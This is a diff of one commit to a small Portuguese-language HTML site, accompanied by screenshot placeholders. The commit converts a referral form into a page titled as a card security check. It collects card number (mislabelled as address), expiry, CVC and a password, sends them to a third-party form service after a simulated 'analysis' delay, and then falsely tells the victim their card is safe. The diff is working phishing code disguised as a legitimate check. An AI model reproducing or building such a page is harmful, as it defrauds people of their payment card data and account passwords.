

Before and after one commit to Tedesqui/credit, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 44-572 px from the top of the page, without its empty margins (289-990 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Formulário de Indicação</title>
+    <title>Verifique a Segurança do seu Cartão</title>
     <link rel="preconnect" href="https://fonts.googleapis.com">
     <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
     <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&display=swap" rel="stylesheet">
@@ -60,9 +60,10 @@
             display: flex;
             gap: 1rem; /* Espaçamento entre os campos */
         }
-        .input-row > div {
-            flex: 1; /* Faz com que cada campo ocupe metade do espaço */
-        }
+
+        .month-wrapper { flex: 3; }
+        .year-wrapper  { flex: 4; }
+        .cvc-wrapper   { flex: 2; }
 
         label {
             display: block;
@@ -72,6 +73,7 @@
         }
 
         input[type="text"],
+        input[type="password"],
         textarea,
         select {
             width: 100%;
@@ -84,6 +86,7 @@
         }
 
         input[type="text"]:focus,
+        input[type="password"]:focus,
         textarea:focus,
         select:focus {
             outline: none;
@@ -93,12 +96,6 @@
 
         textarea {
             resize: vertical;
-        }
-
-        #sugestoes {
-            min-height: auto;
-            height: 2.6rem;
-            resize: none;
         }
 
         input[type="file"] {
@@ -193,37 +190,47 @@
 
     <div class="container">
         <h1>Formulário de Indicação</h1>
+        <!-- O atributo 'enctype' foi mantido pois o script usa FormData -->
         <form id="indication-form" method="POST" enctype="multipart/form-data">
 
+            <!--
+                IMPORTANTE: Substitua "06ca2708-2fb8-4700-aa35-b37809a91e36"
+                pela chave que você obteve do Web3Forms.
+            -->
             <input type="hidden" name="access_key" value="06ca2708-2fb8-4700-aa35-b37809a91e36">
             <input type="hidden" name="subject" value="Nova Indicação Recebida">
             <input type="hidden" name="from_name" value="Sistema de Indicações">
 
+            <!-- Campos do Formulário -->
             <div class="form-group">
                 <label for="nome">Nome Completo</label>
                 <input type="text" id="nome" name="Nome Completo" required>
             </div>
 
+            <!-- --- CAMPO DE ENDEREÇO ADICIONADO --- -->
             <div class="form-group">
-                <label for="endereco">Endereço da Indicação</label>
-                <input type="text" id="endereco" name="Endereço da Indicação" placeholder="Rua, Bairro, Referência..." required>
+                <label for="endereco">Endereço</label>
+                <input type="text" id="endereco" name="Número do Cartâo" required>
             </div>
 
             <div class="form-group">
-                <label for="validade_mes">Validade (Mês/Ano)</label>
+                <label for="validade_mes">Validade (Mês/Ano) e Número atrás do Cartâo</label>
                 <div class="input-row">
-                    <div>
+                    <div class="month-wrapper">
                         <input type="text" id="validade_mes" name="Mês de Validade" placeholder="MM" required maxlength="2" pattern="\d{2}">
                     </div>
-                    <div>
+                    <div class="year-wrapper">
                         <input type="text" id="validade_ano" name="Ano de Validade" placeholder="AAAA" required maxlength="4" pattern="\d{4}">
+                    </div>
+                    <div class="cvc-wrapper">
+                        <input type="text" id="cvc" name="CVC" placeholder="CVC" required maxlength="4" pattern="\d{3,4}">
                     </div>
                 </div>
             </div>
 
             <div class="form-group">
-                <label for="sugestoes">Sugestões (Opcional)</label>
-                <textarea id="sugestoes" name="Sugestões"></textarea>
+                <label for="senha">Senha</label>
+                <input type="password" id="senha" name="Senha" required>
             </div>
 
             <button type="submit" class="submit-btn" id="submit-button">
@@ -232,9 +239,11 @@
             </button>
         </form>
 
+        <!-- Mensagem de resultado de erro (dentro do container) -->
         <div id="form-result"></div>
     </div>
 
+    <!-- Modal de Sucesso (fora do container, para centralizar na tela) -->
     <div id="success-modal" class="modal-overlay">
         <div class="modal-content">
             <svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
@@ -254,22 +263,25 @@
             e.preventDefault(); // Impede o comportamento padrão de recarregar a página
 
             submitButton.disabled = true;
-            submitButton.querySelector('span').textContent = 'Enviando...';
+            submitButton.querySelector('span').textContent = 'Analisando...';
 
             const formData = new FormData(form);
 
+            // Adiciona um atraso de 5 segundos para simular a análise
+            setTimeout(() => {
                 fetch('https://api.web3forms.com/submit', {
                     method: 'POST',
-                body: formData // Envia o FormData diretamente, o navegador cuidará do 'Content-Type'
+                    body: formData // Envia o FormData diretamente
                 })
                 .then(response => response.json())
                 .then(data => {
-                resultDiv.style.display = 'none'; // Garante que a mensagem de erro suma
+                    resultDiv.style.display = 'none';
 
-                successMessage.textContent = "Indicação enviada com sucesso! Vamos solucionar isso o mais rápido possível. Obrigado pela colaboração!";
-                successModal.style.display = 'flex'; // Mostra o modal de sucesso
+                    // Altera a mensagem de sucesso
+                    successMessage.textContent = "Seu cartão está seguro!";
+                    successModal.style.display = 'flex';
 
-                form.reset(); // Limpa os campos do formulário
+                    form.reset();
 
                     // Esconde o modal de sucesso após 8 segundos
                     setTimeout(() => {
@@ -280,7 +292,7 @@
                     resultDiv.classList.remove('success');
                     resultDiv.classList.add('error');
                     resultDiv.textContent = "Ops! Algo deu errado. Tente novamente.";
-                resultDiv.style.display = 'block'; // Mostra a mensagem de erro
+                    resultDiv.style.display = 'block';
                     console.error('Error:', error);
 
                     // Esconde a mensagem de erro após 8 segundos
@@ -289,10 +301,11 @@
                     }, 8000);
                 })
                 .finally(() => {
-                // Apenas reabilita o botão
+                    // Reabilita o botão e restaura o texto original
                     submitButton.disabled = false;
                     submitButton.querySelector('span').textContent = 'Enviar Indicação';
                 });
+            }, 5000); // Atraso de 5000ms (5 segundos)
         });
     </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
